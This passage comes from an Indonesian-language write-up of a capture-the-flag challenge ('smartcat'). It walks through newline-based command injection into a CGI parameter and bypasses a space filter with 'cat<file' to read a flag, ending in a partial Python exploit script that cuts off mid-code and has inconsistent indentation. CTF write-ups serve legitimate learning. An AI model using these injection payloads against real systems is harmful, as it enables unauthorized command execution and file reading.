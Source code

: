 ```bash
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

```

Rupanya 'there' tersebut adalah sebuah direktori dimana pada bagian didalamnya juga terdapat direktori yang lain ( nested directory ), kita sudah mengetahui bahwa bagian terakhir adalah file 'flag' kemungkinan adalah flag yang dimaksud, maka tujuan kita disini berikutnya adalah mencoba menampilkan file flag tersebut.

Namun, sangat disayangkan bahwa saya teringat bahwa spasi difilter dibagian ini, saya tidak dapat menjalankan proses "cat /there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag", bahkan menggunakan encoded string maupun teknik - teknik yang lain masih saja tidak dapat di-bypass dengan harapan dapat membaca file flagnya.

Pengetahuan saya di command linux masih terbatas, masih banyak yang harus saya ketahui, maka dari itu saya mencoba untuk menggali informasi lagi mengenai perintah 'cat' dengan versi yang berbeda tetapi dapat menjalankan dan mengeluarkan hasil yang sama. Dan didapatkanlah situs berikut ini yang saya baca.

http://www.linuxnix.com/20-linuxunix-cat-command-examples/

Disana dijelaskan kita dapat menggunakan perintah 'cat' dengan cara berikut.

```bash
cat < namafile
```

Langsung saja saya menerapkannya di python script yang akan saya lanjuti, namun tanpa menggunakan spasi.

```python
import urllib2
import re

class Exploit:
    def __init__(self):
        self.exploit = ""

    def find_flag_stage1(self):
        self.exploit = "127.0.0.1%0Als"
        return self.exploit

	def find_flag_stage2(self):
        self.exploit = "127.0.0.1%0Afind"
        return self.exploit

	def find_flag_stage3(self):
        self.exploit = "127.0.0.1%0Acat<there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag"
        return self.exploit

class RunExploit:
    def __init__(self):
        self.url = "http://smartcat.insomnihack.ch/cgi-bin/index.cgi?dest=%s"

    def execute(self, params):
        url =  self.url % (params)
        read_url = urllib2.urlopen(url).read()
        if "INS{" in read_url:
```